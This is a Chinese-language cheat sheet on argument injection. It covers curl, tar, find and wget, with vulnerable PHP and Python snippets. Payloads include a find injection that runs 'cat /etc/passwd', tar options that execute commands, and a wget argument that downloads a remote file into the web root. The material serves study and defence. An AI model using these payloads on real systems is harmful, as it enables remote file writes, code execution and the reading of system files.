 # 参数注入

参数注入与命令注入类似，因为未经过适当的清理/转义，受污染的数据被传递给在shell中执行的命令。

在不同的情况下都可能发生参数注入，你只能向命令注入参数：

- 不当的清理（正则表达式）
- 注入参数到固定命令中（PHP:escapeshellcmd, Python: Popen）
- Bash扩展（例如：*）

在以下示例中，一个Python脚本从命令行接收输入来生成一个```curl```命令：

```py
from shlex import quote,split
import sys
import subprocess

if __name__=="__main__":
    command = ['curl']
    command = command + split(sys.argv[1])
    print(command)
    r = subprocess.Popen(command)
```

攻击者可以传递多个单词来滥用```curl```命令的选项

```ps1
python python_rce.py "https://www.google.fr -o test.py" 
```

通过打印命令，我们可以看到所有参数都被分割，允许注入一个参数将响应保存到一个任意文件中。

```ps1
['curl', 'https://www.google.fr', '-o', 'test.py']
```

## 总结

* [暴露的命令列表](#list-of-exposed-commands)
  * [CURL](#CURL)
  * [TAR](#TAR)
  * [FIND](#FIND)
  * [WGET](#WGET)
* [参考资料](#references)


## 暴露的命令列表

### CURL

可以通过以下选项滥用```curl```：

```ps1
 -o, --output <file>        写入文件而不是标准输出
 -O, --remote-name          将输出写入一个名为远程文件的文件
```

如果命令中已经有一个选项，可以注入多个URL进行下载和多个输出选项。每个选项将依次影响每个URL。

### TAR

对于```tar```命令，可以在不同的命令中注入任意参数。 

参数注入可能发生在'''extract'''命令中：

```ps1
--to-command <command>
--checkpoint=1 --checkpoint-action=exec=<command>
-T <file> 或 --files-from <file>
```

或者在'''create'''命令中：

```ps1
-I=<program> 或 -I <program>
--use-compres-program=<program>
```

还有短选项可以在不使用空格的情况下工作：

```ps1
-T<file>
-I"/path/to/exec"
```

### FIND

在/tmp目录内查找某个文件。

```php
$file = "some_file";
system("find /tmp -iname ".escapeshellcmd($file));
```

打印/etc/passwd内容。

```php
$file = "sth -or -exec cat /etc/passwd ; -quit";
system("find /tmp -iname ".escapeshellcmd($file));
```

### WGET

易受攻击的代码示例

```php
system(escapeshellcmd('wget '.$url));
```

任意文件写入

```php
$url = '--directory-prefix=/var/www/html http://example.com/example.php';
```

## 参考资料

- [staaldraad - Etienne Stalmans, 2019年11月24日](https://staaldraad.github.io/post/2019-11-24-argument-injection/)
- [回到未来：Unix通配符失控 - Leon Juranic, 2014年6月25日](https://www.exploit-db.com/papers/33930)
- [TL;DR: 如何利用/绕过/使用PHP escapeshellarg/escapeshellcmd函数 - kacperszurek, 2018年4月25日](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md)
